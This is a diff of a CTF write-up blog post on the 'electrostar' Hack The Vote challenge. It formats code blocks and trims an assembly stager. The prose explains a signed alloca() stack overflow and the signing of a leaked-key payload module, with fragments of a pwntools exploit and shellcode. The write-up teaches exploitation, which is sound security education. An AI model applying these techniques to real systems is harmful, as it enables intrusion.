

Before and after one commit to pwnfirstsearch/pwnfirstsearch.github.io, a Jekyll site: the page built from _posts/2020-10-27-hackthevote-electrostar.md, in a window 1280 px wide and 1400 px high, scrolled down 16144 px. Shown: the whole window, without its empty margins (238-1035 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
format fixes #2

````diff
--- a/_posts/2020-10-27-hackthevote-electrostar.md
+++ b/_posts/2020-10-27-hackthevote-electrostar.md
@@ -239,7 +242,7 @@ __int64 __fastcall process_ipc_data(char *data)
 
 Inside `ballot_module`'s `process_ipc_data` function, it performs a stack `alloca()` call based on the first byte of input, which it treats as a signed value. Since it's signed, this is another bug; we can blow out the expectation of where the stack data will be allocated by passing a value greater than 0x7f. Afterwards, our raw payload will be copied to the stack, giving us control of pc (modules have no stack canaries). Obtaining the flag is straightforward from here, since the module provides a `print_part1_flag` function we can jump to, but which is never otherwise called.
 
-```python=
+```python
 from pwn import *
 from pwnlib.util.proc import pid_by_name
 
@@ -260,7 +263,6 @@ p.recvuntil("Submit")
 
 print("here we go")
 print(hex(pemptr))
-
 
 p.send("\x0a")
 p.send("\x0a")
@@ -556,19 +558,7 @@ MoqoZXO1iBFOGg==
 
 Once we've leaked the key, we can patch it into our own local binary where it should go. The local binary provides a convenient command line option to sign payloads as desired. All that is left is to transmit our payload to the server. `socat` is unhappy with certain bytes (e.g. 0x03) which the challenge authors use as an EOF byte. The IPC mechanism itself for reading in data breaks on newlines. Therefore, I actually used a stager payload to receive my module file and un-encode those special bytes from it.
 
-```asm=
-nop
-
-mov r12, 0x0807060504030201
-
-; leak base
-mov rax, [0x502120]
-mov rax, [rax+0x28]
-sub rax, 0x206280
-add rax, 0x206000
-mov r14, rax
-add r14, 0x20
-
+```asm
 ; this value is patched to the number of encoded bytes
 mov rdi, 0x5555555555555555
 call read_bytes
@@ -632,39 +622,6 @@ mov rdi, 21
 mov rsi, r15
 mov rdx, 0x5656565656565656
 call ipc
-
-perma:
-jmp perma
-
-malloc:
-mov rax, 0x5002D8
-jmp rax
-
-ipc:
-mov rax, 0x500406
-jmp rax
-
-memcpy:
-mov rax, 0x5002E8
-jmp rax
-
-strlen:
-mov rax, 0x5002D0
-jmp rax
-
-mmap:
-mov rax, 0x9
-syscall
-ret
-
-madvise:
-mov rax, 0x1c
-syscall
-ret
-
-read_bytes:
-mov rax, 0x50056b
-jmp rax
 ```
 
 After this jerry-rigging, we obtain the flag for part 2!
````
Also changed, not shown: other parts of _posts/2020-10-27-hackthevote-electrostar.md (+8 -5 lines).
